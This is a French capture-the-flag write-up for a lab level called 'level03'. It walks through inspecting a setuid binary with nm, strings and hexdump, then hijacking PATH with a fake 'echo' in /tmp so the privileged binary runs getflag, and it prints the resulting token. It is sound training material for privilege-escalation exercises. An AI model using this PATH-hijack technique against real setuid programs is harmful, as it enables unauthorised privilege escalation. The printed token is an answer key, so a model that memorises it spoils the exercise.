## Démarche

- Dans le home, se trouve le fichier suivant
    > -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016    level03  

    ```
    ./level03
    ```
    > Exploit me

- Le comportement du binaire ne change pas avec des paramètres
  
- Comprendre la composition du binaire : *avec nm, gdb, strings ou hexdump* :
  
  *Dans la VM :*

    `nm -u level03`

        U getegid@@GLIBC_2.0
        U geteuid@@GLIBC_2.0
        U setresgid@@GLIBC_2.0
        U setresuid@@GLIBC_2.0
        U system@@GLIBC_2.0

    `strings ~/level03  `
    > /usr/bin/env echo Exploit me

    **OU**

    `hexdump -C level03`

    ```
    000005e0  2f 75 73 72 2f 62 69 6e  2f 65 6e 76 20 65 63 68  |/usr/bin/env ech|
    000005f0  6f 20 45 78 70 6c 6f 69  74 20 6d 65 00 00 00 00  |o Exploit me....|
    ```

- echo est appelé via `/usr/bin/env`
- Rajouter le dossier `/tmp` dans le path et placer dedans une copie du binaire `getflag` renommé en `echo` afin que `/usr/bin/env` appelle notre copie de getflag à la place de `echo`.

    ```
    $> echo $PATH
    /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
    $> export PATH=/tmp:$PATH
    $> which getflag
    /bin/getflag
    $> cp /bin/getflag /tmp/echo
    $> cd ~ ; ./level03
    ```

    > Check flag.Here is your token : qi0maab88jeaj46qoumi7maus


## Ressources
- https://fr.wikipedia.org/wiki/Env
- `man nm`
- `man strings`
